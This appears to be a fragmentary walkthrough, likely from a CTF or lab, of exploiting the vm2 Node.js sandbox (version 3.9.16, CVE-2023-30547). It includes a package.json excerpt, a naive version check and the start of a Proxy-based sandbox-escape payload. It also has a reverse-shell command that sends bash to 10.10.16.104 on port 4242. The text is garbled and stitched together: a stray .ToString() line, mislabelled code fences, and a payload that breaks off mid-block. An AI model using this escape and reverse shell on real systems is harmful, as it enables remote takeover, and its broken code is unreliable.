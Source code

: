 ```json
    "vm",
    "alcatraz",
    "contextify"
  ],
  "version": "3.9.16",
  "main": "index.js",
  "sideEffects": false,
  "repository": "github:patriksimek/vm2",
  "license": "MIT",
  "dependencies": {
    "acorn": "^8.7.0",
    "acorn-walk": "^8.2.0"
  },
  "devDependencies": {
    "eslint": "^5.16.0",
    "eslint-config-integromat": "^1.5.0",
    "mocha": "^6.2.2"
  },
  "engines": {
    "node": ">=6.0"
  },
  "scripts": {
    "test": "mocha test",
    "pretest": "eslint ."
  },
  "bin": {
    "vm2": "./bin/vm2"
  },
  "types": "index.d.ts"
}
```

Or  for check if this machine is vulnerable run this command
```js
const version = require("vm2/package.json").version;

if (version < "3.9.17") {
    console.log("vulnerable!");
} else {
    console.log("not vulnerable");
}
```


This version is vulnerable of the  [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m).


"bash -c 'exec bash -i &>/dev/tcp/10.10.16.104/4242 <&1'").ToString();
const {VM} = require("vm2");
const vm = new VM();

``` json
const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
```